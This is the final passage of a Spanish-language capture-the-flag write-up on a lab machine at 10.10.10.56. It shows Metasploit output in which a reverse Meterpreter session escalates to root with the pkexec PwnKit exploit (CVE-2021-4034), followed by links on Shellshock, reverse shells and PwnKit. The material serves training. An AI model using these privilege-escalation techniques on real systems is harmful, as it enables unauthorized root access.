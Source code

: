 ```bash
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > shell
Process 1804 created.
Channel 1 created.
whoami
root
id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(shelly)
```
Excelente, hemos escalado privielgios usando el Exploit de **pkexec**.

Observa las sesiones que tenemos activas:

```bash
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > sessions
.
Active sessions
===============
.
  Id  Name  Type                   Information           Connection
  --  ----  ----                   -----------           ----------
  1         meterpreter x86/linux  shelly @ 10.10.10.56  Tu_IP:4444 -> 10.10.10.56:55944 (10.10.10.56)
  2         meterpreter x64/linux  root @ 10.10.10.56    Tu_IP:4444 -> 10.10.10.56:55948 (10.10.10.56)
```


<br>
<br>
<div style="position: relative;">
 <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>


* https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi
* https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf
* https://nmap.org/nsedoc/scripts/http-shellshock.html
* https://blog.cloudflare.com/inside-shellshock/
* https://deephacking.tech/shellshock-attack-pentesting-web/
* https://www.zonasystem.com/2020/07/tipos-de-conexiones-directas-inversas-transferencia-ficheros-netcat-nc.html
* https://www.revshells.com/
* https://gtfobins.github.io/gtfobins/perl/#sudo
* https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
* https://ine.com/blog/exploiting-pwnkit-cve-20214034


<br>
# FIN
